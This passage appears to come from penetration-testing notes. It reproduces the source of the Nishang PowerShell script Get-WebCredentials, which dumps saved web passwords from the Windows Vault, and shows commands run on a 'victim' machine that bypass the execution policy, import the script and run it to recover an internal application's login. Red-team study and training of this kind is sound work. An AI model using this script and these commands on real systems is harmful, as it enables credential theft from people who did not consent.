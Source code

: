**Get-WebCredentials.ps1**

```
function Get-WebCredentials
{
<#
.SYNOPSIS
Nishang script to retrieve web credentials from Windows vault (requires PowerShell v3 and above)

.DESCRIPTION
This script can be used to retreive web credentiaks stored in Windows Valut from Windows 8 onwards. The script 
also needs PowerShell v3 onwards and must be run from an elevated shell.

.EXAMPLE
PS > Get-WebCredentials

.LINK
https://github.com/samratashok/nishang
#>
[CmdletBinding()] Param ()


#http://stackoverflow.com/questions/9221245/how-do-i-store-and-retrieve-credentials-from-the-windows-vault-credential-manage
$ClassHolder = [Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$VaultObj = new-object Windows.Security.Credentials.PasswordVault
$VaultObj.RetrieveAll() | foreach { $_.RetrievePassword(); $_ }
}
```

Ensure to execute PowerShell with bypass policy to import it as a module as follows,

**Victim(cmd)**

```
powershell -ex bypass
Import-Module C:\Tools\Get-WebCredentials.ps1
Get-WebCredentials
```

<figure><img src="../../.gitbook/assets/image (15) (9).png" alt=""><figcaption></figcaption></figure>

The output shows that we obtained the username and password for accessing the internal application.

### RunAs

**Example**
